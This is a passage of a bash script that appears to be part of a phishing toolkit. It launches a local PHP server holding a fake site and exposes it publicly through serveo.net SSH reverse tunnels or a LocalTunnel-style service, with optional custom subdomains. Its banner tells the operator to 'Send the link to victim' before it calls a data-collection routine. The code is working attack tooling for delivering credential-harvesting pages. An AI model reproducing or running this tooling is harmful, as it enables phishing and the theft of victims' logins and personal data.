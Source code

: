 fi

printf "\e[0m\n"
printf " \e[1;31m[\e[0m\e[1;77m~\e[0m\e[1;31m]\e[0m\e[1;92m Initializing...\e[0m\e[1;91m ( \e[0m\e[1;96mhttp://127.0.0.1:$serveo_port\e[0m\e[1;91m )\e[0m\n"
sleep 1
printf "\e[0m\n"
printf " \e[1;31m[\e[0m\e[1;77m~\e[0m\e[1;31m]\e[0m\e[1;92m Launching Serveo ...\e[0m\n"
cd .htr/www && php -S 127.0.0.1:$serveo_port > /dev/null 2>&1 & 
if [[ $serveo_custom_subdomain == true ]]; then
$(which sh) -c 'ssh -o StrictHostKeyChecking=no -o ServerAliveInterval=60 -o ServerAliveCountMax=60 -R %s:80:localhost:%s serveo.net > .nexlink 2> /dev/null &' $serveo_subdomain,$serveo_port
sleep 7

else
$(which sh) -c 'ssh -o StrictHostKeyChecking=no -o ServerAliveInterval=60 -R 80:localhost:%s serveo.net > .nexlink 2> /dev/null &' $serveo_port
sleep 7
fi
serveo_link=$(grep -o '.\{0,0\}http.\{0,100\}' .nexlink)
smallbanner
printf "\e[0m\n"
printf " \e[1;31m[\e[0m\e[1;77m~\e[0m\e[1;31m]\e[0m\e[1;96m Send the link to victim :\e[0m\e[1;93m %s \n" $serveo_link

datafound
}

start_loclx() {

loclx_default_choose_sub="Y"
loclx_default_sub="$website$RANDOM"

printf "\e[0m\n"
printf ' \e[1;31m[\e[0m\e[1;77m~\e[0m\e[1;31m]\e[0m\e[1;92m Generate Custom Link ? \e[0m\e[1;91m[\e[0m\e[1;92mY\e[0m\e[1;91m/\e[0m\e[1;92mn\e[0m\e[1;91m] : \e[0m\e[1;93m'
read loclx_choose_sub
loclx_choose_sub="${loclx_choose_sub:-${loclx_default_choose_sub}}"
if [[ $loclx_choose_sub == "Y" || $loclx_choose_sub == "y" || $loclx_choose_sub == "Yes" || $loclx_choose_sub == "yes" ]]; then
loclx_custom_subdomain=true
sleep 1
printf "\e[0m\n"
printf ' \e[1;31m[\e[0m\e[1;77m~\e[0m\e[1;31m]\e[0m\e[1;92m Input CUSTOM Subdomain : \e[0m\e[1;91m( \e[0m\e[1;92mDefault:\e[0m\e[1;93m %s \e[0m\e[1;91m )\e[0m\e[1;92m: \e[0m\e[1;93m' $loclx_default_sub
read loclx_subdomain
loclx_subdomain="${loclx_subdomain:-${loclx_default_sub}}"
sleep 1
fi

printf "\e[0m\n"
printf " \e[1;31m[\e[0m\e[1;77m~\e[0m\e[1;31m]\e[0m\e[1;92m Initializing...\e[0m\e[1;91m ( \e[0m\e[1;96mhttp://127.0.0.1:4142\e[0m\e[1;91m )\e[0m\n"
sleep 1
printf "\e[0m\n"
printf " \e[1;31m[\e[0m\e[1;77m~\e[0m\e[1;31m]\e[0m\e[1;92m Launching LocalTunnel ...\e[0m\n"
cd .htr/www && php -S 127.0.0.1:4142 > /dev/null 2>&1 & 
if [[ $loclx_custom_subdomain == true ]]; then
